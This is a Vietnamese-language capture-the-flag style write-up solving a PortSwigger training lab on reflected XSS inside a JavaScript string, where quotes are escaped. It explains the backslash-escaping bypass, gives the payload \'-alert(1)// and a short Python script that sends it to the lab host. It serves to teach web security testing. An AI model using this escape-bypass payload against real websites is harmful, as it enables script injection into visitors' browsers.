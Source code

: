 - Lab này chứa lỗ hổng reflected XSS ở chức năng tìm kiếm khi mà dấu` <> ""` đã bị HTML encode và dấu `''` đã bị escaped. Để solve lab thì mình cần thoát khỏi js string và thực hiện chức năng alert
  Trang web có chức năng search, và khi search thì chức năng js sẽ xuất hiện, cụ thể đoạn code js là:

```javascript
 <script>
        var searchTerms = '123';
        document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
</script>
```

mình search

![image](https://hackmd.io/_uploads/S1i64iwq6.png)

trang web đã thêm dấu \ đằng trước để khi kết hợp \' js sẽ hiểu đây là ký tự ' ở trong chuỗi

### Khai thác

với 1 dấu \ và trang web cho ta thêm 1 dấu nữa, nó sẽ tạo thành \\ và js sẽ hiểu là ta muốn nối chuỗi thêm dấu \ vào bên trong chuỗi, từ đó dấu ' của ta sẽ không được coi là ký tự đặc biệt cần nối nữa mà ta có thể đóng được chuỗi rồi

Vậy payload của ta giờ sẽ là: `\'-alert(1)//`

mình đã viết lại scrip khai thác

```python
#!/usr/bin/python3.7
import requests
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a80004d0360deeb8028fdfb00b40096.web-security-academy.net'

payload= "\\'-alert(1)//"
response = requests.get(
    url  + "/?search=" + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/B16UjRP9T.png)

## 20. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped
